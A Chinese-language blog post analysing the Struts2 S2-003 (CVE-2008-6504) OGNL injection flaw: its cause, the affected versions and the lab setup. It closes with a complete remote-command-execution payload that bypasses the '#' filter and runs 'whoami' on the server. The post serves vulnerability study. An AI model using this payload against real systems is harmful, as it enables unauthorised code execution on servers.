 ```yaml
---
layout: post
title: "S2-003"
subtitle: 'S2-003漏洞分析'
author: "taomujian"
header-style: text
tags:
  - Struts2 漏洞分析
---
```


## 前言

> 这是Struts系列第二篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-003漏洞,又名CVE-2008-6504漏洞.

> Struts2会将http的每个参数名解析为OGNL语句执行,OGNL表达式通过#来访问Struts的对象,Struts框架通过过滤#字符防止安全问题,通过unicode编码(u0023)或8进制(43)就可以绕过了安全限制,官方通过增加安全配置即增加沙盒机制(禁止静态方法allowStaticMethodAcces、MethodAccessor.denyMethodExecution调用和类方法执行等)来修补.

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-003)

#### 漏洞成因

> Struts2会将HTTP的每个参数名解析为ognl语句执行,OGNL表达式通过#来访问Struts的对象,Struts框架中ParametersInterceptor通过过滤#字符防止安全问题,通过unicode编码(u0023)或8进制(43)就可以绕过了这个安全限制从而可以操作服务端的上下文对象进行执行恶意的代码. 

#### 漏洞影响范围

> Struts 2.0.0 - Struts 2.1.8.1

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,Tomcat必须是6.0.x版本才行,[下载地址](http://archive.apache.org/dist/tomcat/tomcat-6/),我下载的是6.0.10版本的tomcat,然后配置好Tomcat 6.0.x版本的就可以运行了

### Payload

#### 执行命令

```java
('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'whoami\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))
```
